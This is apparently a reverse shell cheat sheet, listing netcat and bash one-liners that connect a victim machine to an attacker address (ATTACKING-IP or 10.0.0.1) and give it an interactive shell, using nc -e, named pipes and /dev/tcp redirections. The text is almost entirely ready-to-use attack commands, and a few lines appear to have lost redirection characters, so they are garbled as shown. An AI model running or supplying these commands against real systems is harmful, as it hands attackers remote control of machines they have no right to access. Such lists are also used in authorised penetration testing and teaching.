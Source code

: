 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> nc -e /bin/sh 10.0.0.1 1234

> /bin/sh | nc ATTACKING-IP 80

> rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

## Bash Reverse Shells

> exec /bin/bash 0&0 2>&0

> 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

> exec 5<>/dev/tcp/ATTACKING-IP/80
>
> cat <&5 | while read line; do $line 2>&5 >&5; done
>
### OR

> while read line 0<&5; do $line 2>&5 >&5; done

> bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
